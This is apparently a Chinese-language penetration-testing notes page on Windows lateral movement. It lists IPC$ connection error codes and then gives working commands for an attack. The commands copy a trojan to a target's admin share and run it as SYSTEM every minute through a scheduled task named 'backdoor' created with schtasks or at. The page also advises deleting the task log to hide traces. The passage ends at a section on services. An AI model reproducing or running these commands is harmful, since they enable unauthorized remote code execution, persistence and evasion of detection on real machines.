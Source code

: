 ### IPC常见错误号

```
1.错误号5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限；
2.错误号51，Windows 无法找到网络路径：网络有问题；
3.错误号53，找不到网络路径：ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）；
4.错误号67，找不到网络名：你的lanmanworkstation服务未启动；目标删除了ipc$；
5.错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，请删除再连。
6.错误号1326，未知的用户名或错误密码：原因很明显了；
7.错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动。（连接域控会出现此情况）
8.错误号2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。
```

### Windows计划任务

1.先建立IPC连接

2.确定目标主机DC的当前时间

```
net time \\192.168.10.2
```

3.拷贝木马到目标机器

```
copy shell.exe \\192.168.10.2\C$\windows\temp\
```

4	.创建计划任务

Vista 和 Server 2008 之后：

> 在使用schtasks命令时，会在系统中留下日志文件C:\\Windows\\Tasks\\SchedLgU.txt（记得删）

```
schtasks /create /s 192.168.10.2 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
// 创建一个名称为"backdoor"的计划任务。该计划任务每分钟启动一次，启动程序为c:\shell.exe，启动权限为system
schtasks /run /s 192.168.10.2 /i /tn backdoor
// i：忽略任何限制立即运行任务
schtasks /delete /s 192.168.10.2 /tn "backdoor" /f
// 强制删除名称为"backdoor"计划任务（记得删）
```

在没有建立ipc连接时，要加上/u和/p参数分别设置用户名(域中为`域\域用户`)和密码。
如果因为权限或组策略设置等原因报错拒绝访问，要加上/u和/p参数分别设置高权限用户名和密码。

Vista 和 Server 2008 之前：

```
at \\192.168.10.2 15:47:00 c:\beacon.exe //创建计划任务
at \\192.168.10.2 1 /delete //删除ID为1的计划任务
```

### Windows服务

> 条件：
> 当前跳板机用户具有管理员权限(因为要创建服务)。
> 与目标机器已经建立ipc连接
